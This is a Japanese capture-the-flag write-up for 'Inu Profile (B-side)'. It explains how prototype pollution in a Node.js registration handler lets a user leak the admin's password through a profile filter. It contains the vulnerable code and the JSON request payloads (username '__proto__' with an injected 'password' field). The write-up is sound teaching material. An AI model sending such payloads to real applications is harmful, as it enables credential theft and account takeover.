

# Inu Profile (B-side)

## / Overview

プロトタイプ汚染を使ったフィルターの改変

## / Writeup

`index.js` を見ると、目標は `admin` になって`/admin`にアクセスすることだと分かります。

しかし、adminのパスワードは乱数で決められているため総当りなどは出来ません。 `admin` になる方針を3つ考えました。

1. adminに偽造
2. パスワードを変える
3. パスワードを盗む

結果から言うと、3で成功します。

### adminに偽造

`/admin` の判定方法は以下のとおりです。

```js
app.get('/admin', async (req, res) => {
    const { username } = req.session;
    if (!req.session.hasOwnProperty('username') || username !== 'admin') {
        return res.send({ 'message': 'you are not an admin...' });
    }

    return res.send({ 'message': `Congratulations! The flag is: ${FLAG}` });
});
```

fastify/sessionはセッションID方式なので、偽造するにはセッションを乗っ取る必要がありますが、自分しかサーバーにはログインしていないのでこの方法は取れません。

### パスワードを変える

adminのパスワードを変更するには、adminのユーザー情報がどの様に管理されているのか知る必要があります。具体的にはコード内で以下のように定義されています。

```js
let users = {
    admin: {
        password: crypto.randomBytes(16).toString('hex'),
        avatar: '\u{1f32d}',
        description: 'I am admin!'
    }
};
```

usersはオブジェクトであり、これを書き換えられそうな場所は`/register`に対する関数内にあります。

```js
    for (const key in profile) {
        users[username][key] = profile[key];
    };
```

通信を見ると、`username`, `password`, `profile`は次のような形式でPOSTされています。

```json
{
	"username":"user",
	"password":"pass",
	"profile":{
		"avatar":"avatar",
		"description":"desc"
	}
}
```

もし`username`が重複することを禁止していなければ、リクエストを以下のように書き換えることでadminのパスワードが変更できそうです。

```json
{
	"username":"admin",
	"password":"something",
	"profile":{
		"avatar":"",
		"description":"",
		"password":"hacked"
	}
}
```

これは先程のfor文で評価されることで

```js
users["admin"]["password"] = profile["password"] // => hacked
```

になるからです。しかし重複は拒否されるので別の方法を考える必要があります。

javascriptのオブジェクトを題材にしたCTFの問題について検索すると`プロトタイプ汚染`というものがあることを知りました。これは親オブジェクトを改変することで、それを参照しているオブジェクトにも影響を与えるというものです。以下の記事が非常に参考になりました。

> Satoooon1024 CTF Wiki
>
> https://scrapbox.io/satoooon-ctf-wiki/Prototype_Pollution


つまり`users["__proto__"]`を攻撃の起点にできるようです。ここで親オブジェクトに対して直接 `password` を定義したらどうかと考えました。具体的には、

```json
{
    "username":"__proto__",
    "password":"",
    "profile":{
        "avatar":"",
        "description":"",
        "password":"polluted"
    }
}
```

を登録することで

```js
users["__proto__"]["password"] = profile["password"] // => polluted
```

が適用されてadminのパスワードが`polluted`になるのではないかと考えました。しかしここで大事な性質があります。それは、**子クラスで定義されているプロパティが優先されるということ**です。このリクエストを送った時、adminのオブジェクトを可視化すると次のようになります。

```json
{
    "password": "<本当のパスワード>",
    "avatar": "🍖",
    "description": "I am admin",
    "__proto__": {
        "avatar":"",
        "description":"",
        "password":"polluted",
        "__proto__": "null"
    }
}
```

`users`と`admin`は同じオブジェクト型なので`__proto__`は共有されます。下の図のようにオブジェクトの`__proto__`は全ての型から参照されます。



(この図はGeminiに作ってもらいました。)

しかし、`admin`にはすでに`password`があるので、`__proto__`は参照されません。

### パスワードを盗む

実は先程の方法は失敗ではありません。全てのオブジェクトが`__proto__`を共有するということは、フィルターとして使われている`DEFAULT_PROFILE`にも`password`が共有されています。

```json
{
    "avatar": "🐶",
    "description": "bow wow!",
    "__proto__": {
        "avatar":"",
        "description":"",
        "password":"polluted",
        "__proto__": "null"
    }
}
```

ということはフィルターにも`password`も追加されているはずです。この状態で`/profile/admin`を見に行くと、パスワードが表示されています！

あとはadminでログインしてフラグを得ることが出来ます。